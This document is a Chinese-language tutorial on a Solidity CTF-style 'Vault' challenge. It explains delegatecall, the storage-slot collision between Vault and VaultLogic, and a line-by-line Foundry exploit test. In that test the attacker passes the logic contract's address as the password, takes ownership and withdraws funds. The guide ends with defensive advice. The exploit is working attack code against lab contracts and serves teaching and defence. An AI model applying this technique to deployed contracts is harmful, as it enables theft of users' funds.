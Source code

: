 # Vault 合约漏洞学习指南

## 📚 第一步：理解 VaultLogic 合约

让我们先看看 `VaultLogic` 合约的结构：

```solidity
contract VaultLogic {
    address public owner;     // 存储槽 0
    bytes32 private password; // 存储槽 1

    constructor(bytes32 _password) public {
        password = _password;
        owner = msg.sender;
    }

    function changeOwner(bytes32 _password, address _owner) public {
        if (password == _password) {
            owner = _owner;
        } else {
            revert("password error");
        }
    }
}
```

### 🔍 VaultLogic 合约分析：

1. **状态变量**：
   - `owner`：合约的拥有者地址（存储在槽 0）
   - `password`：私有密码（存储在槽 1）

2. **功能**：
   - `changeOwner`：验证密码后更改合约拥有者

## 📚 第二步：理解 Vault 合约

```solidity
contract Vault {
    address public owner;                    // 存储槽 0
    VaultLogic logic;                       // 存储槽 1
    mapping (address => uint) deposites;    // 存储槽 2
    bool public canWithdraw = false;        // 存储槽 3

    fallback() external {
        (bool result,) = address(logic).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

### 🔍 Vault 合约分析：

1. **状态变量**：
   - `owner`：合约拥有者（存储在槽 0）
   - `logic`：VaultLogic 合约实例（存储在槽 1）
   - `deposites`：用户存款映射（存储在槽 2）
   - `canWithdraw`：是否允许提款（存储在槽 3）

2. **关键函数**：
   - `fallback()`：使用 delegatecall 调用 logic 合约
   - `openWithdraw()`：只有 owner 可以开启提款功能
   - `withdraw()`：提取用户存款

## 🚨 第三步：理解 delegatecall 的工作原理

### 什么是 delegatecall？

`delegatecall` 是一种特殊的函数调用方式：

```
普通 call：
合约A --call--> 合约B
- 在合约B的上下文中执行
- 修改合约B的存储

delegatecall：
合约A --delegatecall--> 合约B
- 在合约A的上下文中执行合约B的代码
- 修改合约A的存储！
```

### 📊 存储槽布局对比图：

```
VaultLogic 合约存储布局：
┌─────────┬──────────────┐
│ 槽 0    │ owner        │
├─────────┼──────────────┤
│ 槽 1    │ password     │
└─────────┴──────────────┘

Vault 合约存储布局：
┌─────────┬──────────────┐
│ 槽 0    │ owner        │
├─────────┼──────────────┤
│ 槽 1    │ logic        │
├─────────┼──────────────┤
│ 槽 2    │ deposites    │
├─────────┼──────────────┤
│ 槽 3    │ canWithdraw  │
└─────────┴──────────────┘
```

## ⚠️ 第四步：发现存储槽冲突漏洞

### 问题所在：

当 Vault 通过 `delegatecall` 调用 VaultLogic 的 `changeOwner` 函数时：

1. **VaultLogic 认为**：
   - 槽 0 = owner
   - 槽 1 = password

2. **实际在 Vault 中**：
   - 槽 0 = owner
   - 槽 1 = logic 合约地址

### 🎯 漏洞利用流程图：

```
攻击步骤：
1. 调用 Vault.fallback() 
   ↓
2. delegatecall 到 VaultLogic.changeOwner()
   ↓
3. VaultLogic 检查 password（槽 1）
   实际检查的是 Vault 的 logic 地址
   ↓
4. 如果密码正确（传入 logic 地址）
   VaultLogic 修改 owner（槽 0）
   实际修改的是 Vault 的 owner
   ↓
5. 攻击者成为 Vault 的 owner
   ↓
6. 调用 openWithdraw() 开启提款
   ↓
7. 调用 withdraw() 提取所有资金
```

## 💻 第五步：攻击代码详细解释

让我们逐行分析攻击代码：

```solidity
function testExploit() public {
    // 1. 攻击者先存入一些资金
    vm.startPrank(palyer);
    vault.deposite{value: 0.01 ether}();
```
**解释**：攻击者先存入 0.01 ETH，这样就有提款的权限。

```solidity
    // 2. 准备攻击参数
    bytes32 logicAddress = bytes32(uint256(uint160(address(logic))));
    bytes memory data = abi.encodeWithSignature("changeOwner(bytes32,address)", logicAddress, palyer);
```
**解释**：
- 获取 logic 合约地址并转换为 bytes32 格式
- 编码函数调用数据，传入 logic 地址作为密码，palyer 作为新 owner

```solidity
    // 3. 执行攻击
    (bool success,) = address(vault).call(data);
    require(success, "changeOwner failed");
```
**解释**：
- 调用 Vault 合约，触发 fallback 函数
- fallback 函数使用 delegatecall 调用 VaultLogic.changeOwner
- 由于存储槽冲突，成功将 Vault 的 owner 改为 palyer

```solidity
    // 4. 开启提款并提取资金
    vault.openWithdraw();  // 现在 palyer 是 owner，可以开启提款
    vault.withdraw();      // 提取攻击者的资金
```

## 🛡️ 第六步：如何防范此类漏洞

1. **避免存储槽冲突**：
   - 使用相同的存储布局
   - 或使用代理模式的标准实现

2. **谨慎使用 delegatecall**：
   - 确保被调用合约是可信的
   - 验证存储布局兼容性

3. **使用 OpenZeppelin 的代理模式**：
   - 标准化的实现
   - 经过安全审计

## 🎯 总结

这个漏洞的核心是：
- **delegatecall** 在调用者的上下文中执行代码
- **存储槽冲突** 导致意外的状态修改
- **权限绕过** 让攻击者获得合约控制权

通过理解这些概念，你就能明白为什么攻击能够成功，以及如何在未来避免类似的安全问题。